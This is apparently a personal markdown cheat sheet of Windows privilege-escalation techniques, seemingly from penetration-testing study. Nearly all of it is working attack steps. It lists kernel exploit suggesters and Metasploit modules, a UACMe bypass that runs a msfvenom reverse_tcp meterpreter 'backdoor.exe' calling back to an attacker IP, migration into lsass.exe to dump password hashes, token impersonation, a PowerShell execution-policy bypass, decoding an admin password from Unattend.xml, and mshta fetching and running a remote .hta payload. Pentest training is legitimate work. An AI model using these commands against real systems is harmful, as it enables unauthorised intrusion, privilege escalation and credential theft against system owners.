


# Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 

- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

  

- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

  	   

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta